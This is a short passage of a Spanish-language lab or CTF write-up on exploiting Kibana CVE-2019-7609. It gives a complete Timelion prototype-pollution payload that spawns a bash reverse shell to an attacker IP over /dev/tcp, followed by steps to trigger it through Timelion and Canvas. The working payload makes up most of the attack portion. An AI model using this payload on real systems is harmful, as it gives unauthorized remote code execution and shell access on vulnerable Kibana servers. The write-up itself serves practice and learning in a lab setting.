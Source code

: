 ## Explotación 

### Kibana - CVE-2019-7609

La versión de `kibana` tiene una vulnerabilida que salió en el 2019 [CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609). Usaremos el esta vulnerabilida para ejecutar comandos y enviarnos una shell a nuestra maquina atacante

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.9.115.196/443 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
Inyectando el anterior codigo en el apartado de `timelion` y hacemos un click en el boton de play 

![20231105140315.png](20231105140315.png)

Ahora vamos a `Canvas` y debemos obtener nuestra shell

![20231105140431.png](20231105140431.png)
